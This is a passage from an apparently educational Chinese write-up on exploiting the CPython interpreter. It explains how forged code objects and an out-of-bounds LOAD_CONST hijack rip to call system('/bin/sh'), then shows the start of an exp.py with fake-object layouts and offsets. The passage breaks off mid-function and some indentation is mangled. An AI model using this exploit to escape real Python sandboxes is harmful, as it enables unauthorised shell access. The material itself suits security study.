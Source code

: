 有了system，可以劫持rip，最后的问题是传入参数。这里就需要注意到之前call的调用方式了：

```text
result = (*call)(callable, args, kwargs); /* func是第一个参数 */
```

func是一个指针，指向我们构造的“第一个对象”，所以，我们只需要把第一个对象的开始部分设置为"/bin/sh"，由于ob\_next并没有用到，所以改为字符串并不会影响其他结果，最后就可以system\("/bin/sh"\)了。

4.exp.py

这个exploit是我自己的环境下的，并且是自己编译的debug版本，执行不正常是可能出现的，因为偏移量不一样，甚至具体代码都有可能有一些不一样，所以仅供参考。最后还是需要自己手动调试才行（特别是各种偏移量）。

```text
import types
import sys
from opcode import opmap
import struct
def p16(content):
      return struct.pack("<H", content)
 
  def p32(content):
    return struct.pack("<I", content)
def p64(content):
    return struct.pack("<Q", content)
def u64(content):
    return struct.unpack("<Q", content)
def get_opcode(opname):
    return chr(opmap[opname])
def get_code(somefunction, code_byte_str, code_consts):
    somefunction.func_code = types.CodeType(
        0, 0, 0, 0,
        code_byte_str,
        code_consts, (), (),
        "", "", 0, ""
    )
    return somefunction
extended_arg = get_opcode('EXTENDED_ARG')
load_const = get_opcode('LOAD_CONST')
call_function = get_opcode('CALL_FUNCTION')
load_fast = get_opcode('LOAD_FAST')
return_value = get_opcode('RETURN_VALUE')
def call(rip):
    """
    make the python call addr
    """
    
    consts = ("12345", )
    fake_type_object = 'a' * (0x5610 - 0x55b4) + p64(rip)
    
    ptr_fake_type = id(fake_type_object)
    ptr = ptr_fake_type
    #     _ob_next     _ob_prev     ref cnt ob_type
    fake_object= 'a' * 4 + '/bin/sh;'.ljust(8) + p64(ptr) + p64(1) + p64(ptr)
    
    to_load = 'aaaa' + p64(id(fake_object) + (0x310 - 0x2e0) + 8)
    ptr_fake_object = id(to_load) + (0x310 - 0x2e0)
    
    ptr_consts = id(consts) + 32
    offset = ((ptr_fake_object - ptr_consts) // 8) & 0xffffffff
    
    def somefunction():
        pass
    code = get_code(
        somefunction,
```